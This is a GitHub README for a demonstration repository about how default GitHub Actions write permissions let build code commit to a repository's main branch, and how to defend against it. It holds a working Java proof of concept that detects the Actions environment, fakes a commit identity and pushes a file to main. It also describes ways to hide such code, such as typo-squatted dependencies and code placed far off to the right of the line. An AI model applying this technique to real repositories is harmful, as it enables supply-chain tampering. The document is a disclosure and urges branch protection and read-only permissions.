# Musical-Okto-Carnival

GitHub actions by default allow any code executed as part of the action, except
when running as part of a PR from a forked repository, to commit changes to the
main branch. This is exceedingly dangerous and could allow the introduction of
malicious code into the source code repositories of widely used software.

GitHub provides repository owners a lot of control over what GitHub Actions
have access to; this has only been strengthend in recent months due to
[BitCoin mining attacks](https://www.coindesk.com/hackers-mined-crypto-on-githubs-servers-report).
However, by default an action running on a non-forked branch has write access
to the respository.

## Attacking Repositories on GitHub

Imagine a scenario where a maintainer of a widely used OSS package goes rogue
and decides they want to start spreading malicious code. For instance, if the
primary maintainer of [OWASP dependency-check](https://github.com/jeremylong/DependencyCheck)
decided to abuse the trust so many users have given the tool over the years.
What if the following code were introduced and called as part of the execution
of dependency-check:

```java
    private void provideWarning() {
        String ref = getEnv("GITHUB_REF", "");
        boolean isAction = Boolean.parseBoolean(getEnv("GITHUB_ACTIONS", "false"));
        boolean notPR = getEnv("GITHUB_HEAD_REF", "").isEmpty();
        boolean isMain = "refs/heads/main".equals(ref);
        boolean isMaster = "refs/heads/master".equals(ref);
        java.io.File f = new java.io.File("warning.md");

        if (isAction && notPR && (isMain || isMaster) && !f.exists()) {
            try (java.io.FileWriter writer = new java.io.FileWriter(f);
                    java.io.BufferedWriter out = new java.io.BufferedWriter(writer)) {
                out.write("Warning\n");
                out.write("=======\n\n");
                out.write("Branch protection is not enabled and GitHub Actions has the\n");
                out.write("ability to write to the repository. Any action or code executed\n");
                out.write("during the build, even code in third party dependencies called\n");
                out.write("during testing, could subvert the integrity of your project.\n\n");
                out.write("See [Disabling or limiting GitHub Actions for a repository]");
                out.write("(https://docs.github.com/en/actions/reference/environment-variables#default-environment-variables) ");
                out.write("for more information on how to protect you repository.");
                out.flush();
                out.close();
            } catch (java.io.IOException ex) {
                //ignore
            }
            exec("git config user.email \"actions@github.com\"");
            exec("git config user.name \"GitHub Actions\"");
            exec("git add warning.md");
            exec("git commit -m \"warning\" warning.md");
            if (isMain) {
                exec("git push origin main");
            } else {
                exec("git push origin master");
            }
        }
    }
    // The rest of the code is trivial helper functions used to make the example above more concise.
    private String getEnv(String name, String def) {
        String ret = System.getenv(name);
        if (ret == null) {
            ret = def;
        }
        return ret;
    }

    private void exec(String cmd) {
        try {
            Runtime run = Runtime.getRuntime();
            Process pr = run.exec(cmd);
            Thread in = new ProcessReader(pr.getInputStream());
            Thread err = new ProcessReader(pr.getErrorStream());
            in.start();
            err.start();
            if (pr.isAlive()) {
                pr.waitFor();
            }
            in.join();
            err.join();
        } catch (java.io.IOException | InterruptedException ex) {
            //ignore
        }
    }

    static class ProcessReader extends Thread {
        java.io.InputStream inputStream;
        byte[] buffer = new byte[1024];

        ProcessReader(java.io.InputStream inputStream) {
            this.inputStream = inputStream;
        }

        @Override
        public void run() {
            try {
                int read;
                do {
                    read = inputStream.read(buffer);
                } while (read != -1);
            } catch (java.io.IOException ex) {
                //ignore
            }
        }
    }
```

The above code example is lengthy for completness - but at its core it simply:

1. Validates that it is running as a GitHub Action running on the `main` or
   `master` branch.
2. If it is in the correct execution context it then writes a `warning.md`
   file into the root of the repository.
3. The `warning.md` is then added to git, committed to git, and then pushed
   to the `main` or `master` branch.

While the example is mostly harmless, it demonstrates how dangerous the default
permissions can be. One could add or modify code within the repository and the
commits could impersonate one of the contributers (all you need is their email
address) instead of the above code just using `actions@github.com`. Detecting
the introduction of the injected code could be difficult. A real attacker could
even check if the code was executing right after a merge event so maintainers
would have to do a pull anyway before being able to update.

The example code above could be introduced into any dependency, GitHub Action
from the marketplace, or really any code that is executed withinva GitHub
Action. Imagine the number of repositories that could be compromised if code
like the example above were introduced into JUnit or other testing framework.

## In Action

### Act 1

To see the payload in action, the code was added in
[PR #1](https://github.com/jeremylong/musical-octo-carnival/pull/1).

When run as part of the build of main the repository now has a `warning.md`.

As the PR indicates, the "attack" was done in plain site. There are numerous
was to mask the attack. The easiest would be to include a subverted dependency;
one could even create a look-a-like/typo squated dependency to make it easier
to introduce the code.

### Act 2

With [PR #2](https://github.com/jeremylong/musical-octo-carnival/pull/2) the
"malicious" code was cleaned up and the `warning.md` removed. Who needs that
cumbersome branch protection.

### Act 3

In Act 3 / [PR #3](https://github.com/jeremylong/musical-octo-carnival/pull/3)
the "malicious" code was re-introduced. This time discussed and completely
missed during the peer review due to the Unified view not have any indication
that there is code way off on the right starting at character 160. See the PR
for the example. This is just another way malicious code can be introduced.

If programming in a language that allows - it is recommended to use the "Split"
view when reviewing a PR. Alternatively, use a tool like Checkstyle with a line
length check enabled and anotate your PRs with the
[Violations-to-GitHub-Comment](https://github.com/tomasbjerre/violation-comments-to-github-command-line)
utility. The OWASP dependency-check project uses the violations maven plugin;
[example here](https://github.com/jeremylong/DependencyCheck/blob/fc010a869aee54d7fd0357a95f9c5b2da2597363/.github/workflows/pull_requests.yml#L31).

### Act 4

With Act 4 / [PR #4](https://github.com/jeremylong/musical-octo-carnival/pull/3)
we implement AllStar. Hopefully, the maintainer will actually resolve the
[issues](https://github.com/jeremylong/musical-octo-carnival/issues).

## Solutions

GitHub already has (almost) everything in place a user needs to secure their
repositories. Repository owners can enable branch protection or change the
default permissions on Actions to be read-only via the workflow yaml or using
a personal access token.

The recent introduction of [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
is awesome! AllStars will examine an organization or repository and alert
if any issues are discovered. However, tools like AllStars require users to
opt-in. As anyone in security knows when you start asking people to opt-in
you are doomed to fail. With AllStars we aren't just asking them to opt-in
to security, but we are asking them to opt-in just for a notification.

The best solution would be to make Actions secure by default. This could be
done by changing the default permission level for GitHub Actions read-only.
Making this change would obviously be difficult as it would end up breaking
a lot of builds. However, the default GitHub Action permissions on all new
repositories created should be made read-only. In order to do this GitHub
would need to introduce a way to control the default permissions beyond
just those for Pull Requests from forked repositories; currently the only
way to make an Action read-only is to provide a limited access token or
to use the `permissions` tag in the yaml. In most cases, Actioms do not
need the ability to write to a repository and for those that do one can
simply add the write permission in the yaml defining the Action.

Another solution available to GitHub would be to move the functionality of
AllStars from an Action in the Marketplace to an integral part of GitHub
just like was done with dependabot. As such, all repository owners could
be alerted, just like dependabot, if their repository is setup insecurely.
The warnings could be displayed only to the repository owners and provide
two buttons to assist with resolution:

1. Enable Branch Protection
2. Change Default Permissions to read-only

## End Scene

In summary, for now use [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
and secure your GitHub repos. When performing Peer Review - consider using
the `Split` view or using some other tool to detect long lines.
